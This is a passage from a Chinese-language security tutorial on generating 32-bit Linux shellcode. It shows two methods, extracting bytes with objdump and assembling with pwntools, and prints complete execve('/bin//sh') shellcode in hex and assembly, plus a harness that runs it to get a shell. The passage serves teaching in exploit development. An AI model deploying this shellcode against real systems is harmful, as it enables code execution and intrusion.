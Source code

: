 ### 1.2. 生成Shellcode

这里主要介绍两种生成Shellcode文件的方法：

1. 方法一：通过objdump一键提取

```bash
objdump -d shellcode32 | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | perl -pe 's/(..)/\\x\1/g' | tr -d '\n'
# 打印查看提取结果
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
# 一键直接生成codefile_32文件
objdump -d shellcode32 | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | xxd -r -p > codefile_32
# 命令解释：
# objdump -d shellcode32：反汇编二进制文件
# grep -Po '\s\K[a-f0-9]{2}(?=\s)': 提取每一个字节的十六进制格式
# xxd -r -p: 将提取的十六进制转回原始的二进制格式
```

2. 方法二：通过pwntools转换

```python
# 前置要求安装pwntools：pip3 install pwntools
from pwn import *

context.arch = 'i386'
context.os = 'linux'

shellcode_32 = asm('''
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    push eax
    push ebx
    mov ecx, esp
    xor edx, edx
    mov al, 0x0b
    int 0x80
''')

print(f'Shellcode (length: {len(shellcode_32)}):')
print(''.join(f'\\x{b:02x}' for b in shellcode_32))

with open('codefile_32', 'wb') as f:
    f.write(shellcode_32)
```

编译`call_shellcode32`来执行验证上面生成的`codefile_32`：

```bash
cd shellcode
# 注意，在Makefile里我们打开了-z execstack保证栈可执行
make
# 要求codefile_32已经生成在当前路径下
./call_shellcode32
# 看到进入/bin/sh
$
```
